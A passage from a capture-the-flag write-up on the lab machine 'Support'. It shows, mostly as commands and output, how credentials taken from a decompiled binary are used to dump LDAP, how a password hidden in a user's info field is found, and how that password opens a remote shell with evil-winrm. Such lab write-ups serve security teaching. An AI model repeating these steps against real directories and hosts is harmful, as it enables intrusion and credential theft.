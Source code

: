 The fastest way is to use the debugger that comes with DNSpy and set a breakpoint. With this we obtain the credentials `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz` , which are valid.

## Seeking further into LDAP

This user must have privileges to access ldap so lets try to find useful information there. If we dump the entire ldap tree we can use grep to search for uncommon things.

```python
ldapsearch -H ldap://10.10.11.174 -b "DC=support,DC=htb" -U ldap -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' > ldap_dumped
```

```python
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ cat ldap_dumped | grep -i -A28 'CN=Users,DC=support,DC=htb' | grep -vEw 'dn|objectClass|objectClass|objectClass|objectClass|cn|sn|c|l|st|postalCode|givenName|distinguishedName|instanceType|whenCreated|whenChanged|uSNCreated|uSNChanged|company|streetAddress|name|objectGUID|userAccountControl|badPwdCount|codePage|countryCode|badPasswordTime|lastLogoff|lastLogon|pwdLastSet|primaryGroupID|objectSid|accountExpires|logonCount|sAMAccountName|sAMAccountType|objectCategory|dSCorePropagationData|dSCorePropagationData|mail'
```

This query will filter all the users and show strange lines, doing this we find a field that is not common.

```python
info: Ironside47pleasure40Watchful
```

We find something that may be a password for the user `support` .

```python
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ crackmapexec smb 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'        
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

WE have valid credentials `support:Ironside47pleasure40Watchful` .

Since this new user is part of the remote management users we can remotely to the machine.

```powershell
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents>
```
